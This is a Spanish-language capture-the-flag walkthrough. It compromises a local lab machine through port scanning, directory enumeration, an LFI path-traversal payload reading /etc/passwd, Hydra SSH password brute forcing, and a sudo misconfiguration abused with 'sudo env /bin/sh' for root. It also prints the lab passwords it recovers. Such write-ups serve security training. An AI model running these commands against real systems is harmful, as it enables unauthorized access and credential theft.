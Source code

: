 ## **Reconocimiento**
____
Una vez desplegada la máquina, comprobamos que tenemos conectividad con el siguiente comando:

```bash
ping -c1 172.18.0.2
```

![Pasted image 20250115125510](https://github.com/user-attachments/assets/b74ae2d7-311f-4b55-9a43-21afba33229a)

- **`-c1`** → Ejecuta el **ping** una sola vez.

Una vez confirmada la conectividad con la máquina víctima, realizo un reconocimiento con **Nmap**:

```bash
nmap -p- --open -sS -sV -sC --min-rate 5000 -n -Pn 172.18.0.2 -oN Puertos
```

![Pasted image 20250115125915](https://github.com/user-attachments/assets/3bdbf7d7-72a6-4eac-9dcf-dc63f8d2ee19)

Para visualizar los resultados de una forma más clara, utilizo el siguiente comando:

```bash
cat Puertos -l ruby.rail
```

![Pasted image 20250115130025](https://github.com/user-attachments/assets/9ad22776-3b9c-43a9-b286-3b75a7397415)

Como se muestra en la salida, los **puertos 22 y 80** están abiertos y se muestran sus versiones.

---

## **Puerto 80 (HTTP)**
------

Accedemos al servidor web ingresando la dirección IP en el navegador:

![Pasted image 20250117124516](https://github.com/user-attachments/assets/a192f7bc-bac6-4cbf-a566-c96f8a3544d1)

Obtenemos una página por defecto de **Apache2**.

Revisamos el código fuente de la página en busca de información relevante. Para ello, pulsamos **`Ctrl + U`**:

![Pasted image 20250117124713](https://github.com/user-attachments/assets/d260d74d-a30b-4573-a0d1-d36383fb5db6)

Revisando el código, no encuentro nada de interés.

---

### **Enumeración de directorios con Gobuster**
--------

Después de analizar la página web y su código fuente sin obtener resultados relevantes, utilizo **GoBuster** para encontrar posibles directorios ocultos:

```bash
gobuster dir -u 172.18.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -t 200
```

![Pasted image 20250117130341](https://github.com/user-attachments/assets/2d59ab94-db9b-4971-8c02-855fe500c7b0)

<details>
	<summary><strong>Explicación del comando:</strong></summary>

- `gobuster dir` → Modo de enumeración de directorios en un servidor web.  
- `-u 172.18.0.2` → Especifica la dirección IP objetivo donde se enumerarán los directorios.  
- `-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt` → Diccionario de palabras a utilizar.  
- `-x html,php,txt` → Extensiones a probar (ejemplo: `index.html`, `index.php`, `secret.txt`).  
- `-t 200` → Número de hilos para acelerar el escaneo. **Nota:** Cuantos más hilos, mayor carga en el servidor objetivo.  

</details>

Como se muestra en la imagen, encontramos el directorio **/wordpress**, por lo que realizo una nueva búsqueda con **GoBuster** para detectar directorios ocultos dentro de este:

```bash
gobuster dir -u 172.18.0.2/wordpress -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,sql,py,js -t 200
```

<details>
	<summary><strong>Explicación del comando:</strong></summary>

- `-u 172.18.0.2/wordpress` → Especifica la ruta del directorio encontrado donde se realizará la enumeración.  
- `-x html,php,txt,sql,py,js` → Extensiones adicionales a probar.  
- `-t 200` → Número de hilos para acelerar el escaneo.  

</details>

![Pasted image 20250120120657](https://github.com/user-attachments/assets/32eec660-f548-4218-9917-1c10c255b42e)

Como resultado, encontramos un **archivo index.php** dentro del directorio `/wordpress`. Examinamos el sitio web con los directorios descubiertos:

![Pasted image 20250120121015](https://github.com/user-attachments/assets/b6a4ad43-d3c8-4d0e-81d8-fcda770cdf1b)

La página no muestra nada relevante y los enlaces no conducen a ningún lugar. Inspeccionamos el código fuente con **`Ctrl + U`**:

![Pasted image 20250120121124](https://github.com/user-attachments/assets/c4671770-59a0-4a48-99f6-dfd48547c3d0)

Solo encontramos un comentario en el código. 
Como no hemos conseguido nada, simplemente un texto comentado, vamos a usar la herramienta WFUZZ para ver si existe un LFI (Local file inclusion).

---

## **Explotación de LFI con WFUZZ**
Realizamos una prueba para detectar **Local File Inclusion (LFI)** con **Wfuzz**:

```bash
wfuzz -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../../../../../../etc/passwd"
```

<details>
	<summary><strong>Explicación del comando:</strong></summary>

- `wfuzz` → Ejecuta la herramienta Wfuzz para fuzzing en aplicaciones web.
- `-c` → Muestra la salida con colores.
- `-w ...` → Especifica la wordlist utilizada para probar valores en `FUZZ`.
- `"http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../../../../../../etc/passwd"` → Intenta un **Path Traversal** para acceder a `/etc/passwd`.

</details>

![Pasted image 20250120121457](https://github.com/user-attachments/assets/405d2ac3-1c34-4489-a14a-c982fdfd8d95)

Filtramos los resultados con `--hw 115` para excluir respuestas de **115 palabras**:

```bash
wfuzz -c -w ... --hw 115 "http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../../../../../../etc/passwd"
```
![Pasted image 20250120122142](https://github.com/user-attachments/assets/f0fe8955-4a46-41e7-851b-baf6864ade0d)

Vemos como nos ha detectado "love" como parámetro a pasar en la URL que hemos usado en la herramienta `WFUZZ` Con dicho parámetro, vamos al navegador y ponemos la URL:

![Pasted image 20250120122348](https://github.com/user-attachments/assets/931d53f8-5733-4344-8a70-d4dfe807fe9c)

Como vemos la pagina es vulnerable a un LFI. Ahora para verlo mejor abrimos el código fuente `Ctrl + U`

![Pasted image 20250120122443](https://github.com/user-attachments/assets/12d59ce3-deb4-4a27-81f9-2dc267e98d98)

Como se puede observar, tenemos dos posibles usuario. pedro y rosa.

Con estos usuarios obtenidos, pasamos a realizar un ataque por fuerza bruta con Hydra al puerto 22 SSH.

---

## **Ataque de fuerza bruta a SSH con Hydra**

Probamos credenciales en el puerto **22 (SSH)** con **Hydra**:

Primero usamos `Hydra` con el usuario pedro:

![Pasted image 20250120123111](https://github.com/user-attachments/assets/07bf9bb4-f8b9-4173-a5a2-daf9bc7b672d)

Con el usuario pedro tarda mucho y no, nos esta encontrando nada.

Paso a probar con el usuario rosa empleando el mismo comando de la herramienta **Hydra**:

```bash
hydra -l rosa -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```
![Pasted image 20250120123220](https://github.com/user-attachments/assets/9af24871-f224-4bb4-a0fc-87bed719a33e)

Obtenemos la contraseña **`lovebug`** para el usuario `rosa` y nos conectamos por SSH:

```bash
ssh rosa@172.18.0.2
```
![Pasted image 20250120123356](https://github.com/user-attachments/assets/06dabdde-972f-4840-bf58-871f5860756d)

---

## **Escalada de privilegios**
Ejecutamos:

```bash
sudo -l
```

![Pasted image 20250120123553](https://github.com/user-attachments/assets/e120fca9-9070-4795-9358-6830424c3c47)

El usuario `rosa` puede ejecutar `ls` y `cat` como **root**. Sabiendo esto, procedo a listar todos los archivos y directorios del usuario **root**, incluyendo los ocultos:

```bash
sudo ls -la /root
```
![Pasted image 20250120124119](https://github.com/user-attachments/assets/fb168d44-3492-4f9f-80d0-eebbfbe0e3c8)

Encontramos el archivo `secret.txt`, lo leemos con:

```bash
sudo cat /root/secret.txt
```
![Pasted image 20250120124224](https://github.com/user-attachments/assets/30dd9b50-7e2a-4cf9-b13c-85243c5addd0)

Decodificamos la clave hexadecimal en **CyberChef**, obteniendo la contraseña **"noacertarasosi"** para el usuario `pedro`.

![Pasted image 20250120124347](https://github.com/user-attachments/assets/2fd7b767-017f-4004-b8cb-5fa6581dafd2)
![Pasted image 20250120124358](https://github.com/user-attachments/assets/d0b9b977-3922-4f71-9fef-ab187a2de7c0)

Nos cambiamos a su usuario:

```bash
su pedro
```
![Pasted image 20250120124538](https://github.com/user-attachments/assets/d6bf3d6b-2662-4ab0-9a0b-c5748ee1e943)

Estamos dentro de pedro. Ahora usamos el comando `sudo -l` para saber que puede ejecutar pedro como root:

![Pasted image 20250120124646](https://github.com/user-attachments/assets/4a887f0e-6550-4fba-9e20-15afcb3b2efc)

Como vemos, pedro tiene permisos para ejecutar /env con permisos de root. Visto esto, vamos a buscar en la web CTFOBins una posible escalada de privilegios para /env:

![Pasted image 20250120124902](https://github.com/user-attachments/assets/d48f2737-a4ca-48a6-899f-021d3b452816)

Ejecutamos:

```bash
sudo env /bin/sh
```
![Pasted image 20250120124943](https://github.com/user-attachments/assets/52ce355a-5ddc-4afc-a770-3c45b4c90d98)

✅ ¡Hemos escalado a **root**!

---
